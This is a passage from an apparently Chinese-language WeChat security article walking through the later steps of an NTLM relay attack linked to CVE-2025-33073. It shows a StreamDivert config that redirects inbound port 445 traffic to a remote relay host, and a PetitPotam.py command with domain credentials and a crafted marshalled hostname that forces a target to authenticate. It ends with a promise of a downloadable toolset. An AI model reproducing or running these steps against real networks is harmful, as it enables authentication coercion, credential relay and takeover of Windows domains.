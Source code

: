 ![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElfH6XY55PI6SvLlHHlic93ic817LicnyybF396Dl0hibAib7XofI34m5FDicw/640?wx_fmt=png&from=appmsg "")  
  
  
4.   
在入口机搭建隧道，将本地 445 端口入站流量转发到远程 VPS 主机的监听端口。  
  
StreamDivert  
 配置文件如下：  
```
tcp < 445 0.0.0.0 -> 192.168.56.10 445
```  
```
5. 加载配置文件启动转发：
```  
```
shell StreamDivert.exe config.txt
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElT7EdNQ1uYmNjnfeDgV2cZUJYHSmjc4ibib1oKo7nQ2Y2SIwCG21iaqQBg/640?wx_fmt=png&from=appmsg "")  
  
6.   
强制目标主机发起 NTLM 认证。  
```
python PetitPotam.py -d luckytom.com -u domainuser01 -p User01!@# badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 192.168.214.135
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2El5omDmUWIhOEP9uPibfBtvkeHfWyNk5tEYBdOiawhibCTn6xDibSOKwcumQ/640?wx_fmt=png&from=appmsg "")  
  
7.   
攻击完成。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2EljPh2GDQnJ6pmUcObLoxnrU8ZyWvtzW8VzozwicMwL46tQiaNP4JrnTEA/640?wx_fmt=png&from=appmsg "")  
  
0x04   
Windows 端口占用问题  
  
  
参考资料  
  
跟前面差不多，就不赘述了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElG9dDVFvaPEjG0fXuc7sjnicoicslXqhoTwnW3uvkwpYa2mBwYGSVeIoA/640?wx_fmt=png&from=appmsg "")  
  
参考链接  
  
```
https://mp.weixin.qq.com/s/NrGyltW-f8a3Zqr0-4oYnw
```  
  
  
  
*  
  
后台回复“CVE-2025-33073”获得工具集下载地址  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/rA9dDxDOarQvwxWqIZkXL6ibTEBOB4hNhtuJcQcLM3f3VKllE3RmlNIx2Tz5Djg4yptIxV5ibhUgDNEvFW6GZfQQ/640?wx_fmt=jpeg "")  
  
  
  
  
